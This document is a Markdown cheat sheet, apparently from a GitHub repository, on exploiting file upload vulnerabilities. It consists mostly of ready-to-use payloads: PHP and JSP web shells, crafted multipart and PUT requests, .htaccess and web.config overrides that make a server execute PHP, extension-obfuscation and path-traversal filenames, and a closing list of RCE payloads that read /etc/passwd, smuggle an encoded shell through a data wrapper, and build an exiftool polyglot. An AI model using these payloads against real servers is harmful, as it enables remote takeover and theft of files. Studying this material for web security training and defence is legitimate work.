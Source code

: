 # **File Upload Vulnerability**

## **Index**

1. [PHP Web Shell Upload](#1-php-web-shell-upload)  
2. [Image Upload with Embedded PHP Code](#2-image-upload-with-embedded-php-code)  
3. [Bypassing Content-Type Validation](#3-bypassing-content-type-validation)
4. [Uploading Files via Path Traversal Vulnerability](#4-uploading-files-via-path-traversal-vulnerability)  
5. [Uploading Files Using PUT](#5-uploading-files-using-put) 
6. [Exploiting Server Configuration](#6-exploiting-server-configuration)  
     - [Apache Bypass](#apache-bypass)  
     - [IIS Bypass](#iis-bypass)  
7. [Obfuscating File Extensions](#7-obfuscating-file-extensions)
8. [File Content Exploit Via Polyglot](#8-File-Content-Exploit-Via-Polyglot)
9. [SSRF By Uploading Url Instead Of Picture](#SSRF-By-Uploading-url-instead-of-picture)
10. [PHP Payloads for RCE](#php-payloads-for-rce)
---
### **1. PHP Web Shell Upload**

Uploading a simple PHP script as a file to get remote code execution.

**Malicious File Content (`shell.php`):**
```php
<?php echo shell_exec($_GET['cmd']); ?>
```

**Example HTTP Request:**
```http
POST /upload HTTP/1.1
Host: vulnerable-website.com
Content-Type: multipart/form-data; boundary=---------------------------12345
Content-Length: 221

-----------------------------12345
Content-Disposition: form-data; name="file"; filename="shell.php"
Content-Type: application/x-php

<?php echo shell_exec($_GET['cmd']); ?>
-----------------------------12345--
```

In this example, the attacker uploads a file named `shell.php` that contains a PHP web shell. If the server stores the file in a web-accessible location, the attacker can execute commands by accessing `http://vulnerable-website.com/uploads/shell.php?cmd=ls`.

---

### **2. Image Upload with Embedded PHP Code**

Uploading an image file that contains embedded PHP code with a manipulated file extension.

**Malicious File Content (`image.php.jpg`):**
```php
<?php system($_GET['cmd']); ?>
```

**Example HTTP Request:**
```http
POST /upload HTTP/1.1
Host: vulnerable-website.com
Content-Type: multipart/form-data; boundary=---------------------------98765
Content-Length: 245

-----------------------------98765
Content-Disposition: form-data; name="file"; filename="image.php.jpg"
Content-Type: image/jpeg

<?php system($_GET['cmd']); ?>
-----------------------------98765--
```

The attacker uploads a file named `image.php.jpg`. If the server incorrectly identifies the file based on its extension rather than content, the attacker may execute commands by navigating to the uploaded file's URL.

---

### **3. Bypassing Content-Type Validation**

Some web applications check the `Content-Type` header to validate the file type. The attacker can manipulate the header to bypass this check.

**Malicious File Content (`shell.jsp`):**
```jsp
<% out.println("Command execution: " + Runtime.getRuntime().exec(request.getParameter("cmd"))); %>
```

**Example HTTP Request:**
```http
POST /upload HTTP/1.1
Host: vulnerable-website.com
Content-Type: multipart/form-data; boundary=---------------------------54321
Content-Length: 256

-----------------------------54321
Content-Disposition: form-data; name="file"; filename="shell.jsp"
Content-Type: image/jpeg

<% out.println("Command execution: " + Runtime.getRuntime().exec(request.getParameter("cmd"))); %>
-----------------------------54321--
```

Here, the attacker uploads a JSP file disguised with a `Content-Type` of `image/jpeg`, hoping that the server only checks the header and not the actual content of the file.

---

### **4. Uploading Files via Path Traversal Vulnerability**

In some cases, you can exploit file upload vulnerability via path traversal:  
- `filename="../exploit.php"`  
- URL encoding: `filename="..%2fexploit.php"`

---

### **5. Uploading Files Using PUT**

```text
PUT /images/exploit.php HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-httpd-php
Content-Length: 49

<?php echo file_get_contents('/path/to/file'); ?>
```
### **6. Exploiting Server Configuration**

#### **Apache Bypass**
```text
Step 1 >>
filename=".htaccess"
Content-Type: text/plain
AddType application/x-httpd-php .shell

Step 2 >>
filename="test.shell"
Content-Type: application/x-httpd-php
<?php system($_GET['cmd']); ?>
```

#### **IIS Bypass**
```text
Step 1 >>
filename="web.config"
Content-Type: text/plain
<configuration>
    <system.webServer>
        <staticContent>
            <mimeMap fileExtension=".php" mimeType="application/x-httpd-php" />
        </staticContent>
    </system.webServer>
</configuration>

Step 2 >>
Content-Type: application/x-httpd-php
<?php system($_GET['cmd']); ?>
```

Reference: [Portswigger Lab Overriding the server configuration](https://portswigger.net/web-security/file-upload#overriding-the-server-configuration)

---

### **7. Obfuscating File Extensions**
```text
.php
.php3
.php4
.php5
.pHp
.shtml
.php.jpg
.php.png
%2Ephp
.php;.jpg
.php;.png  
.php%00.jpg
.php%00.png
.p.phphp
.php.
exploit.asp;.jpg
exploit.asp%00.jpg
```

Reference : [Portswigger](https://portswigger.net/web-security/file-upload#obfuscating-file-extensions)

---

### **8. File Content Exploit Via Polyglot**
<br>

For more details: [Portswigger](https://portswigger.net/web-security/file-upload#flawed-validation-of-the-file-s-contents)

### **9. SSRF By Uploading Url Instead Of Picture**

In some cases we can exploit SSRF via file upload vulnerability. In this case we need to change `type:file to type:url` and add a image url.<br>
<br>
Here is a h1 POC: [Upload profile photo from URL](https://hackerone.com/reports/713)

## **10. PHP Payloads for RCE**

```php
<?php echo file_get_contents('/etc/passwd'); ?> // To read files
<?php system($_GET['cmd']); ?> // For system command
<?php passthru($_GET['cyborg71']); ?> // For system command*
php://filter/convert.base64-decode/resource=data://plain/text,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7ZWNobyAnU2hlbGwgZG9uZSAhJzsgPz4+&cmd=ls // LFI to RCE
exiftool -Comment="<?php echo 'START ' . file_get_contents('/home/carlos/secret') . ' END'; ?>" hacker.jpg -o polyglot.php
```
---


